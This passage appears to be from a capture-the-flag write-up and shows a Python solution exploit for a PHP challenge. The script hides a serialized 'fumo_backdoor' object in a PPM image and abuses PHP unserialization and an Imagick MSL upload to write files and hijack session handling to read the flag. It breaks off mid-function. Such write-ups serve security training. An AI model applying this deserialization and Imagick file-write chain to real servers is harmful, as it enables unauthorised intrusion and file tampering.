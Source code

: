 解题 `exp` :

```python
#!/usr/bin/python3
#coding:utf-8

import sys
import time
import requests
from ctfbox import base64_encode

payload = '|O:13:"fumo_backdoor":4:{s:4:"path";s:9:"/tmp/ttt1";s:4:"argv";N;s:4:"func";N;s:5:"class";N;}'
size = (len(payload) // 3) + 1

filled_payload = payload.rjust(size * 3, '\0')

img = f"""P6
{str(size)} 1
255
{filled_payload}"""

b64_img = base64_encode(img)

host = sys.argv[1]
port = sys.argv[2]

url = f"http://{host}:{port}"

def rm_tmp_file():
    headers = {"Accept": "*/*"}
    requests.get(
        f"{url}/?cmd=rm",
        headers=headers
    )

def upload_session_and_read_file(msl_file):
    headers = {
        "Accept": "*/*",
        "Content-Type": "multipart/form-data; boundary=------------------------c32aaddf3d8fd979"
    }

    data = f"--------------------------c32aaddf3d8fd979\r\nContent-Disposition: form-data; name=\"swarm\"; filename=\"swarm.msl\"\r\nContent-Type: application/octet-stream\r\n\r\n{msl_file}\r\n--------------------------c32aaddf3d8fd979--"
    try:
        res = requests.post(
            f"{url}/?data=O%3A13%3A%22fumo_backdoor%22%3A4%3A%7Bs%3A4%3A%22path%22%3BN%3Bs%3A4%3A%22argv%22%3Bs%3A17%3A%22vid%3Amsl%3A%2Ftmp%2Fphp%2A%22%3Bs%3A4%3A%22func%22%3BN%3Bs%3A5%3A%22class%22%3Bs%3A7%3A%22imagick%22%3B%7D&cmd=unserialze",
            headers=headers, data=data
        )
        print(res.text)
    except requests.exceptions.ConnectionError:
        pass

def get_flag():
    cookies = {"PHPSESSID": "afkl"}
    headers = {"Accept": "*/*"}
    res = requests.get(
        f"{url}/?data=O%3A13%3A%22fumo_backdoor%22%3A4%3A%7Bs%3A4%3A%22path%22%3Bs%3A7%3A%22.%2Ftest1%22%3Bs%3A4%3A%22argv%22%3BN%3Bs%3A4%3A%22func%22%3Bs%3A13%3A%22session_start%22%3Bs%3A5%3A%22class%22%3BN%3B%7D&cmd=unserialze", 
        headers=headers, cookies=cookies
```